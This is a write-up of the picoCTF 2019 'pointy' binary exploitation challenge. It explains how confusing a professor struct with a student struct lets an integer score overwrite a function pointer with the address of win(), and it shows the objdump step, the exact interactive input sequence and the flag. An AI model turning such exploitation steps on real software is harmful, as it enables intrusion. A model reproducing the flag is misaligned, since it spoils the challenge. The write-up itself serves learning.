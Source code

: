 ## Writeup for 2019 picoCTF: pointy
Binary Exploitation, 350 points

### Problem
> Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln). It is also found in /problems/pointy_0_4da9845cb7c41585de522db47f569424 on the shell server. [Source](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln.c).  
  
Note the one function pointer in vuln.c's struct Student: `void (*scoreProfessor)(struct Professor*, int)` and that scoreProfessor is called on line 93.  

To get the program to call `win()`, we need to somehow assign `win()`'s address to `scoreProfessor`. Access to `scoreProfessor` via a student is already blocked by `student->scoreProfessor=&giveScoreToProfessor`.  However:    
1. `lastscore` and `scoreProfessor` have the same offset from the respective struct's address.  
2. The `student` and `professor` variables in `main` are cast from the return values of retrieveStudent and retrieveProfessor, which are identical.  

This means we could give `win()`'s address as a professor's score. Then, cast the professor into a student, which effectively casts Professor's `int lastscore` to Student's `void (*scoreProfessor)(struct Professor*, int)` ie. casts the professor's score to a pointer to `win()`. Thus the next time `student->scoreProfessor` is called, win would be executed.  

### Solution: objdump
1. First `objdump -D vuln | grep win` to disassemble all sections of vuln to get addresses. 
2. Pipe that ouput to `grep` to get only the win function section. You will find that `08048696` is win()'s address in hex, which converts to `134514326` as int / unsigned int.  

**Here is how the interaction in the shell goes**:
```
@pico-2019-shell1:/problems/pointy_0_4da9845cb7c41585de522db47f569424$ ./vuln
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score   
s0  
Input the name of the professor that will be scored  
s0  
s0  
Input the score:  
134514326  
Score Given: 134514326   
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score  
s0
Input the name of the professor that will be scored 
s0  
s0  
Input the score:  
0  
```
**Flag: picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}**
